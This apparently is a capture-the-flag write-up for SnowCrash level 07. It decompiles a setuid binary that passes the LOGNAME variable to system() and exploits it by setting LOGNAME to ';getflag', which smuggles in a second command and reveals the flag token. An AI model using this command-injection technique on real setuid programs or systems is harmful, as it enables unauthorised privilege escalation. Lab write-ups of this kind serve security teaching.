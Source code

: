 # Level 07

## Initial Reconnaissance
When browsing the files of the home of level07 user, we can see there is binary file called level07 owned by level07.

```bash
ls -Al
```

```
total 24
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

Executing the binary gives us no information.

```
level07@SnowCrash:~$ ./level07 
level07
```

We can download the binary on our local machine.

```bash
scp -P 4242 level07@[IP]:level07 .
```

We pass it through a binary analysis tool on : https://dogbolt.org/.

```c
int32_t main(int argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    char* var_1c = nullptr;
    asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
    return system(var_1c);
}
```

## Vulnerability Found
We can see that the binary uses setresuid and setresgid to set the effective user and group ID to the real user and group ID. Since it is owned by flag07, it is executed with the user flag07.

We can see that the binary uses system to execute the command '/bin/echo $LOGNAME' where LOGNAME is an environment variable.

## Exploitation Steps
We cam export the variable LOGNAME to make it also execute getflag as user flag07.

```bash
export LOGNAME=';getflag'
```

```
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Additional Notes


